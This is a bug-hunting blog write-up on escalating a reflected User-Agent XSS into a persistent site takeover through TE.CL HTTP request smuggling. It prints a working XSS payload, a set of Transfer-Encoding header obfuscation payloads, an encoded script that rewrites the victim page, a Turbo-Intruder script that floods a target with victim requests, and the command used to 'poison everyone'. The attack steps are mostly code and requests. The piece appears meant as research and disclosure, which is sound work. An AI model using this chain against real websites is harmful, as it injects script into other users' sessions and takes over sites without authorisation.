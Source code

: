 ```yaml
---
title: Exploiting HTTP Request Smuggling (TE.CL)- XSS to website takeover [Bug Hunting]
updated: 2021-03-10 22:46
---
```

Even though HTTP Request Smuggling is documented back on 2005, it is still one of the least known Webapp vulnerability out there.

After a little break I decided to hunt a private company (which is not eligible for Bug Bounty, but still accepting reports) and what I found might be worth sharing.

## Reflected XSS in User-Agent Header

I have developed my own smart XSS fuzzing (which might be soon published) which tests both URL Endpoints and HTTP Headers. Luckily it found that User-Agent is being reflected. We can confirm it by manually send a request with Burp Suite:

![reflected_xss_burp](https://cdn-images-1.medium.com/max/800/1*M_stlWovazY6bcg702cbPQ.jpeg)

The word Exploitation is being reflected, let's put a simple XSS and break the Javascript String. The payload will look like this:

```
"><script>alert(`XSS`)</script>
```

We got XSS, nothing new and interesting by far. Mostly Private Programs don't accept this bug as in real cases, you can't send special-crafted HTTP request to an end user. Let's try to escalate this innocent-looking XSS into something more spicy.

## Recon and Detecting HTTP Request Smuggling

Burp Suite has a built-in Extension for this type of vulnerability, and it does test any kind of Smuggling while I do enumerating.


![burp_suite_extension](https://cdn-images-1.medium.com/max/800/1*WMItqq0i4OSHlL3q4ce7VQ.png)

Now let's perform automatic scans, go to **Repeater**, right click and click on **Launch Smuggle probe**.

![burp_suite_extension_right_click](https://cdn-images-1.medium.com/max/800/1*HuthN9dwqT5dvK_Ydu6s4w.png)

If HTTP Smuggling vulnerability  is detected, it will be issued on Target tab (it might take some minutes to perform the scans in the background)

![vuln_found_by_burp_extension](https://cdn-images-1.medium.com/max/800/1*-uByNsDX3Mr5056RZkc1uw.png)

## TE.CL Exploit Development

Before we craft our special-request in Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked, this way our Content-Length value doesn't automatically change by Burp Suite, this is a crucial part on this kind of exploitation.

Below is our crafted payload. Keep in mind that the 2 headers (Transfer-Encoding, and Connection) must be always included. The first chunk (A x 1000) is going to be requested to the front-end server, it contains nothing malicious because it is just a regular request as an ordinary user would do. The reason why Content-length is 1007 (in the photo below is 1005, oops…), is because there are 1000*A + \r\n + 3e8 + b0. Which means 1000 + 2 + 3 + 2 = 1007 bytes. Note: b0 is still considered a part of the first request even though it defines the length of the smuggled request.

The second chunk of data is our smuggled request, if successful, we should get Error 404 requests as there is no directory **/404hopefully** on the website. 
After the second chunk, is mandatory to add x=1 or bunch of random data and two newlines after 0.

```
0\r\n\r\n
\r\n\r\n
```
![smuggling_request_development](https://cdn-images-1.medium.com/max/800/1*vO8vcAcB4AfDjCSvBFJY-g.jpeg)

Send this request to Turbo-Intruder and if we get any 404 Request, it means that our Special-Crafted request is sent to Back-End server.

![turbo_intruder_vuln_identification](https://cdn-images-1.medium.com/max/800/1*WtmzjvOS7UP-Ban2bQo5lA.png)

## Suffix Space Bypass - Obfuscating TE Header

We have to obfuscate the TE header, because one of the servers can be induced not to process it. This technique works on quite a few systems, but we can exploit many more by making the Transfer-Encoding header slightly harder to spot, so that one system doesn't see it. Here are some payloads by James Kettle:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

 Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

I used the whitespace as a bypass method.

![suffix_tab_bypass](https://cdn-images-1.medium.com/max/800/1*FdNCO994ZtOwLEuKfRn9iA.png)

## Poisoning response and website takeover

This is our final crafted request, the difference is that the XSS payload is added to the smuggled request in User-Agent Header (which we discovered before). Save it as request.txt to launch the attack with Turbo-Intruder:

![final_crafted_request](https://cdn-images-1.medium.com/max/800/1*rfYL92DvrQYO4d8ivafGRA.png)

Inside **script.js** is a simple code which generates a HTML website as a POC (kinda servers as a DOM XSS):

```
document.documentElement.innerHTML=String.fromCharCode(60, 104, 116, 109, 108, 62, 10, 60, 104, 49, 62, 85, 115, 101, 114, 39, 115, 32, 114, 101, 115, 112, 111, 110, 115, 101, 32, 105, 115, 32, 112, 111, 105, 115, 111, 110, 101, 100, 32, 119, 105, 116, 104, 32, 72, 84, 84, 80, 32, 82, 101, 113, 117, 101, 115, 116, 32, 83, 109, 117, 103, 103, 108, 105, 110, 103, 32, 97, 110, 100, 32, 88, 83, 83, 60, 47, 104, 49, 62, 10, 60, 47, 104, 116, 109, 108, 62, 10)
```

Here is our **setup.txt** which contains the configuration part of Turbo-Intruder:

```
#credits to https://hipotermia.pw/bb/http-desync-account-takeover
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=20,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )
    engine.start()
    
    attack = target.req
    engine.queue(attack)
    
    victim = target.req
    for i in range(100000000):
        engine.queue(victim)
        time.sleep(0.05)
        
def handleResponse(req, interesting):
    table.add(req)
```

There is nothing much left to do, so fire up [Turbo-Intruder](https://github.com/PortSwigger/turbo-intruder/releases/tag/1.2.0) and poison everyone:

```
java -jar turbo-intruder-all.jar setup.txt request.txt https://www.target.com/ /
```

![turbo_intruder_poisoning_users](https://cdn-images-1.medium.com/max/800/1*4ZBYWE8VVbdPg090oNTN-g.jpeg)

As long as the Turbo-Intruder is being run, the XSS payload will be persistent on the website. Below is Javascript being executed:

![persistente_xss](https://cdn-images-1.medium.com/max/800/1*sNy8N8Q_DzAWnE82n8BOCw.jpeg)


**References**  

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn  
https://portswigger.net/web-security/request-smuggling  
https://www.youtube.com/watch?v=JW2fM_GmidU&t=1s  
